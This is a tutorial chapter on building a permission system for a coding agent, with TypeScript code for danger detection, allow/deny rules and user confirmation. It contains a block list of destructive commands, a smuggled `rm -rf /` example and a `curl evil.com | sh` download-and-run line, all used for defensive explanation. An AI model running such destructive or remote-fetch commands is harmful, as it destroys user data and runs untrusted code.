

# 6. Permissions and Security

## Chapter Goals

Implement a complete permission security mechanism: dangerous command detection -> configurable allow/deny permission rules -> unified permission check -> session-level whitelist -> user confirmation dialog. From "hardcoded rules" to "user-defined rules," letting the agent automatically approve safe operations and automatically block dangerous ones, without requiring manual confirmation every time.



Core approach: **Multi-layer checks, deny takes priority**. Permission mode (global policy) -> config file rules (Layer 1) -> built-in danger pattern detection (Layer 2) -> session whitelist -> user confirmation.

## How Claude Code Does It

Claude Code executes code in real environments -- reading and writing files, running shells, manipulating Git. Without proper security mechanisms, a single `rm -rf /` could cause disaster. That's why it employs **Defense in Depth**: 7 independent security layers, so even if one layer is bypassed, the others remain effective.

### 7 Layers of Defense in Depth

| Layer | Mechanism | Core Purpose |
|-------|-----------|-------------|
| 1 | Trust Dialog | Confirms trust when first entering a directory, preventing malicious project hooks from auto-executing |
| 2 | Permission modes | Global policy switch (default/plan/acceptEdits/bypassPermissions/dontAsk) |
| 3 | Permission rule matching | allow/deny/ask rules, 8 sources, priority from enterprise policy to session-level |
| 4 | Bash AST analysis | tree-sitter parses commands into AST, 23 static safety checks, FAIL-CLOSED principle |
| 5 | Tool-level validation | validateInput + checkPermissions, protecting dangerous file paths and path boundaries |
| 6 | Sandbox isolation | macOS Seatbelt / Linux namespace, limiting filesystem and network access scope |
| 7 | User confirmation | Interactive dialog + Hook + ML classifier racing, first decision wins |

A few design details worth understanding:

**`bypassPermissions` (--yolo) doesn't actually bypass everything**. The source code check order is: first check deny rules (if hit, reject immediately) -> then check bypass-immune paths (`.git/`, `.claude/`, etc. still require confirmation) -> only then skip normal confirmation. Administrators can constrain `--yolo` through deny rules.

**Why Layer 4 doesn't use regex**: Shell syntax is complex. Faced with a command like `echo hello$(rm -rf /)`, regex sees `echo hello`, but what actually executes is `rm -rf /`. tree-sitter actually parses the AST, and structures it doesn't understand (command substitution, variable expansion, control flow, etc.) are all marked as `too-complex`, requiring user confirmation.

**8 rule sources with strict priority**: Enterprise MDM policy (non-overridable) > user global > project-level (committed to repo) > local project (not committed) > CLI arguments > runtime arguments > command definitions > session-level (produced by clicking "always allow"). Lower priority cannot override higher priority -- an operation denied by enterprise policy cannot be allowed at any user level.

**3 matching types**: Exact match (`Bash(git status)`), prefix match (`Bash(npm:*)`), wildcard match (`Bash(git * --no-verify)`). When a wildcard ends with space + `*`, the tail is optional, maintaining consistent behavior with prefix syntax.

**Layer 7's racing mechanism**: The UI dialog, PermissionRequest Hook, and ML classifier all start simultaneously. A `createResolveOnce` guard ensures only the first decision takes effect. Once the user touches the dialog, results from the Hook and classifier are discarded -- human intent always takes priority. The dialog also has a 200ms grace period to prevent accidental clicks.

**Denial tracking**: 3 consecutive denials trigger a downgrade (auto mode falls back to interactive confirmation); 20 total denials abort Agent execution -- preventing the model from falling into a loop of repeatedly attempting denied operations.

## Our Implementation

We simplify the 7 layers down to **4 layers**: dangerous command detection, permission rule system, unified permission check, and session-level whitelist. The 8 rule sources are simplified to **2** (user-level + project-level), and the 3 rule behaviors are simplified to **2** (allow + deny).

### 1. Dangerous Command Detection

16 regex patterns cover the most common destructive operations (10 Unix + 6 Windows):

#### **TypeScript**
```typescript
// tools.ts
const DANGEROUS_PATTERNS = [
  /\brm\s/,
  /\bgit\s+(push|reset|clean|checkout\s+\.)/,
  /\bsudo\b/,
  /\bmkfs\b/,
  /\bdd\s/,
  />\s*\/dev\//,
  /\bkill\b/,
  /\bpkill\b/,
  /\breboot\b/,
  /\bshutdown\b/,
  // Windows
  /\bdel\s/i,
  /\brmdir\s/i,
  /\bformat\s/i,
  /\btaskkill\s/i,
  /\bRemove-Item\s/i,
  /\bStop-Process\s/i,
];

export function isDangerous(command: string): boolean {
  return DANGEROUS_PATTERNS.some((p) => p.test(command));
}
```

Windows patterns use the `i` flag because Windows commands are case-insensitive by nature.

The limitations are obvious: dangerous commands like `find / -delete` or `curl evil.com | sh` won't be caught. This is exactly why Claude Code chose AST analysis -- but for a minimal implementation, 16 regex patterns cover most common cases.

### 2. Permission Rule System

Beyond built-in danger detection, this supports predefined allow/deny rules via configuration files, letting the agent automatically approve safe operations and automatically block dangerous ones.

#### Rule Parsing (parseRule)

Parses string rules into structured data. `run_shell(npm test*)` -> `{tool: "run_shell", pattern: "npm test*"}`, bare tool name -> `{tool: "read_file", pattern: null}`.

#### **TypeScript**
```typescript
// tools.ts

interface ParsedRule {
  tool: string;
  pattern: string | null;  // null means match all calls to this tool
}

function parseRule(rule: string): ParsedRule {
  const match = rule.match(/^([a-z_]+)\((.+)\)$/);
  if (match) {
    return { tool: match[1], pattern: match[2] };
  }
  return { tool: rule, pattern: null };
}
```

#### Loading Rules (loadPermissionRules)

Rules from both files are **appended** to the same array (not overwritten), so user-level and project-level rules coexist. Results are cached in memory -- with dozens to hundreds of tool calls per session, reading from disk every time is unnecessary.

#### **TypeScript**
```typescript
// tools.ts

let cachedRules: PermissionRules | null = null;

export function loadPermissionRules(): PermissionRules {
  if (cachedRules) return cachedRules;

  const allow: ParsedRule[] = [];
  const deny: ParsedRule[] = [];

  const userSettings = loadSettings(join(homedir(), ".claude", "settings.json"));
  const projectSettings = loadSettings(join(process.cwd(), ".claude", "settings.json"));

  for (const settings of [userSettings, projectSettings]) {
    if (!settings?.permissions) continue;
    if (Array.isArray(settings.permissions.allow)) {
      for (const r of settings.permissions.allow) allow.push(parseRule(r));
    }
    if (Array.isArray(settings.permissions.deny)) {
      for (const r of settings.permissions.deny) deny.push(parseRule(r));
    }
  }

  cachedRules = { allow, deny };
  return cachedRules;
}
```

#### Rule Matching (matchesRule)

Three-level check: skip if tool name doesn't match -> if no pattern, tool name match is sufficient -> if pattern exists, match against `command` or `file_path`. Supports two matching methods: trailing `*` for prefix matching, otherwise exact matching.

#### **TypeScript**
```typescript
// tools.ts

function matchesRule(
  rule: ParsedRule,
  toolName: string,
  input: Record<string, any>
): boolean {
  if (rule.tool !== toolName) return false;
  if (!rule.pattern) return true;

  let value = "";
  if (toolName === "run_shell") value = input.command || "";
  else if (input.file_path) value = input.file_path;
  else return true;

  const pattern = rule.pattern;
  if (pattern.endsWith("*")) {
    return value.startsWith(pattern.slice(0, -1));
  }
  return value === pattern;
}
```

Note: `run_shell(np*)` will match both `npm` and `npx` -- be careful about prefix precision when writing rules.

#### Rule Checking (checkPermissionRules)

The return value is tri-state: `"allow"` / `"deny"` / `null` (no opinion, pass to next layer). Deny rules are traversed before allow rules, so even if you write `allow: ["run_shell"]`, `deny: ["run_shell(rm -rf*)"]` still takes effect -- the "open first, then restrict" rule-writing approach works because of this.

#### **TypeScript**
```typescript
// tools.ts

function checkPermissionRules(
  toolName: string,
  input: Record<string, any>
): "allow" | "deny" | null {
  const rules = loadPermissionRules();

  for (const rule of rules.deny) {
    if (matchesRule(rule, toolName, input)) return "deny";
  }
  for (const rule of rules.allow) {
    if (matchesRule(rule, toolName, input)) return "allow";
  }
  return null;
}
```

### 3. Unified Permission Check

`checkPermission` is the unified entry point for the permission system, integrating permission modes, config file rules, and built-in danger detection. It returns `{action, message}`, where action has three possible values: `allow`, `deny`, `confirm`.

Priority: **deny rules > allow rules > mode logic > built-in danger detection > default allow**.

#### **TypeScript**
```typescript
// tools.ts -- checkPermission

export function checkPermission(
  toolName: string,
  input: Record<string, any>,
  mode: PermissionMode = "default",
  planFilePath?: string
): { action: "allow" | "deny" | "confirm"; message?: string } {
  if (mode === "bypassPermissions") return { action: "allow" };

  // Layer 1: Config file rules (deny takes priority)
  const ruleResult = checkPermissionRules(toolName, input);
  if (ruleResult === "deny") {
    return { action: "deny", message: `Denied by permission rule for ${toolName}` };
  }
  if (ruleResult === "allow") {
    return { action: "allow" };
  }

  // Read tools are always safe
  if (READ_TOOLS.has(toolName)) return { action: "allow" };

  // Permission mode check
  if (mode === "plan") {
    if (EDIT_TOOLS.has(toolName)) {
      const filePath = input.file_path || input.path;
      if (planFilePath && filePath === planFilePath) return { action: "allow" };
      return { action: "deny", message: `Blocked in plan mode: ${toolName}` };
    }
    if (toolName === "run_shell") {
      return { action: "deny", message: "Shell commands blocked in plan mode" };
    }
  }

  if (mode === "acceptEdits" && EDIT_TOOLS.has(toolName)) {
    return { action: "allow" };
  }

  // Layer 2: Built-in danger pattern check
  let needsConfirm = false;
  let confirmMessage = "";

  if (toolName === "run_shell" && isDangerous(input.command)) {
    needsConfirm = true;
    confirmMessage = input.command;
  } else if (toolName === "write_file" && !existsSync(input.file_path)) {
    needsConfirm = true;
    confirmMessage = `write new file: ${input.file_path}`;
  } else if (toolName === "edit_file" && !existsSync(input.file_path)) {
    needsConfirm = true;
    confirmMessage = `edit non-existent file: ${input.file_path}`;
  }

  if (needsConfirm) {
    if (mode === "dontAsk") {
      return { action: "deny", message: `Auto-denied (dontAsk mode): ${confirmMessage}` };
    }
    return { action: "confirm", message: confirmMessage };
  }

  return { action: "allow" };
}
```

Conditions that trigger confirmation: `run_shell` + dangerous command, `write_file` / `edit_file` + target doesn't exist. `read_file`, `list_files`, `grep_search` are always safe. Layer 1 has no opinion before entering Layer 2; if neither layer blocks, default is allow.

### 4. Session-Level Whitelist

In the Agent Loop, a `confirmedPaths` Set remembers authorized operations:

#### **TypeScript**
```typescript
// agent.ts

private confirmedPaths: Set<string> = new Set();

const perm = checkPermission(toolUse.name, input, this.permissionMode, this.planFilePath);

if (perm.action === "deny") {
  printInfo(`Denied: ${perm.message}`);
  toolResults.push({
    type: "tool_result",
    tool_use_id: toolUse.id,
    content: `Action denied: ${perm.message}`,
  });
  continue;
}

if (perm.action === "confirm" && perm.message && !this.confirmedPaths.has(perm.message)) {
  const confirmed = await this.confirmDangerous(perm.message);
  if (!confirmed) {
    toolResults.push({
      type: "tool_result",
      tool_use_id: toolUse.id,
      content: "User denied this action.",
    });
    continue;
  }
  this.confirmedPaths.add(perm.message);
}
```

When denied, `"User denied this action."` is returned as the tool result instead of throwing an error or breaking the loop -- the LLM sees this and adjusts its strategy, which is a critical design choice. When a deny rule hits, no dialog is shown; the denial message goes directly back to the model. Confirm goes through the session whitelist -- once a user confirms, the same operation won't be asked about again.

### 5. Confirmation Dialog

#### **TypeScript**
```typescript
// agent.ts
private async confirmDangerous(command: string): Promise<boolean> {
  printConfirmation(command);
  const rl = readline.createInterface({ input: process.stdin, output: process.stdout });
  return new Promise((resolve) => {
    rl.question("  Allow? (y/n): ", (answer) => {
      rl.close();
      resolve(answer.toLowerCase().startsWith("y"));
    });
  });
}
```

### 5 Permission Modes

| Mode | Read tools | Edit tools | Shell (safe) | Shell (dangerous) | Use case |
|------|-----------|------------|-------------|-------------------|----------|
| `default` | ✅ | ⚠️ confirm (new file) | ✅ | ⚠️ confirm | Daily use |
| `plan` | ✅ | ❌ deny | ❌ deny | ❌ deny | Plan only, no execution |
| `acceptEdits` | ✅ | ✅ | ✅ | ⚠️ confirm | Trust edits |
| `bypassPermissions` | ✅ | ✅ | ✅ | ✅ | --yolo |
| `dontAsk` | ✅ | ❌ deny | ✅ | ❌ deny | CI/non-interactive |

```bash
mini-claude --yolo "..."           # bypassPermissions
mini-claude --plan "..."           # plan mode
mini-claude --accept-edits "..."   # acceptEdits
mini-claude --dont-ask "..."       # dontAsk (CI environments)
```

In `plan` mode, the model can also dynamically switch via the `enter_plan_mode` / `exit_plan_mode` tools. The system generates a plan file path (`~/.claude/plans/plan-<sessionId>.md`) as the only writable file.

### Configuration File Format

```json
// ~/.claude/settings.json (user-level, applies globally)
{
  "permissions": {
    "allow": [
      "read_file",
      "list_files",
      "grep_search",
      "run_shell(npm test*)",
      "run_shell(git status)",
      "run_shell(git diff*)"
    ],
    "deny": [
      "run_shell(rm -rf*)",
      "run_shell(git push --force*)"
    ]
  }
}
```

```json
// .claude/settings.json (project-level, committed to repo)
{
  "permissions": {
    "allow": ["run_shell(npm run build)"],
    "deny": ["run_shell(curl*)"]
  }
}
```

Rules from both files are merged and take effect together. Rule format:
- `"read_file"` -- matches all calls to this tool
- `"run_shell(npm test*)"` -- matches `run_shell` calls where the command starts with `npm test`

**Why deny takes priority over allow**: This is standard security system design. If allow took priority, once you write `allow: ["run_shell"]`, you couldn't use deny to exclude dangerous subcommands. Deny-first makes the "open first, then restrict" configuration approach possible:

```json
{
  "permissions": {
    "allow": ["run_shell(git *)"],
    "deny": ["run_shell(git push --force*)"]
  }
}
```

**Why no ask rule**: Claude Code's ask is for setting safety valves on bypassPermissions. Our `--yolo` semantics mean "full trust" -- adding ask rules would be contradictory. Operations that need mandatory confirmation simply shouldn't be in the allow list -- they'll naturally fall through to Layer 2's built-in checks.

## Gap Analysis with Claude Code

| Dimension | Claude Code | mini-claude |
|-----------|------------|-------------|
| Defense layers | 7 layers | 4 layers (mode + rules + detection + confirmation) |
| Command analysis | AST parsing (23 checks) | Regex matching (16 patterns) |
| Permission rule sources | 8 sources with priority | 2 sources (user + project) |
| Rule behaviors | allow / deny / ask | allow / deny |
| Matching methods | Exact / prefix / wildcard | Exact / trailing wildcard |
| Whitelist | Persistent + session-level | Session-level Set |
| Sandbox | macOS Seatbelt / Linux namespace | None |
| Bypass-immune paths | .git/, .ssh/, etc. require confirmation | None |
| Denial tracking | 3/20 threshold downgrade | None |

The core architecture is aligned -- 5 permission modes + configurable rules + built-in detection, with clear layering. Moving from "hardcoded rules" to "user-defined rules" is the key step from a personal tool to a team tool.

---

> **Next chapter**: Agent conversations get longer and longer, and the context window is filling up -- the 4-layer compression pipeline gives it seemingly unlimited memory.
